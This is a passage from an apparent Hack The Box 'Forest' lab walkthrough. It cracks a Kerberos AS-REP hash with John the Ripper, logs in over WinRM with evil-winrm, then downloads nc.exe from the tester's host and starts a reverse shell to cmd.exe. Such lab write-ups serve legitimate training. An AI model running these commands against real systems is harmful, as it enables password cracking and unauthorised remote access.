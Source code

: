 Awesome. Time to fire up John the Ripper.

```
# /opt/john/john -w:/usr/share/wordlists/rockyou.txt alfresco.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB)
1g 0:00:00:04 DONE (2019-10-17 12:19) 0.2267g/s 926476p/s 926476c/s 926476C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Low-Privilege Shell

Armed with the password of `svc-alfresco`, we can attempt PowerShell Remoting through WinRM with a very nifty tool—[evil-winrm](https://github.com/Hackplayers/evil-winrm).

<a class="image-popup">
![248ee2c9.png](/assets/images/posts/forest-htb-walkthrough/248ee2c9.png)
</a>

Bam. There you have it. The file `user.txt` is at `svc-alfresco`'s desktop.

<a class="image-popup">
![e0c63812.png](/assets/images/posts/forest-htb-walkthrough/e0c63812.png)
</a>

Once we have this "shell", we can transfer `nc.exe` from Kali Linux for a more traditional shell.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata> iwr http://10.10.14.192/nc.exe -outf .\cute.exe
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata> start-process -filepath .\cute.exe -argumentlist "10.10.14.192 1234 -e cmd.exe" -nonewwindow
```

<a class="image-popup">
![d6903f9b.png](/assets/images/posts/forest-htb-walkthrough/d6903f9b.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/212
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/2984
[4]: https://www.hackthebox.eu/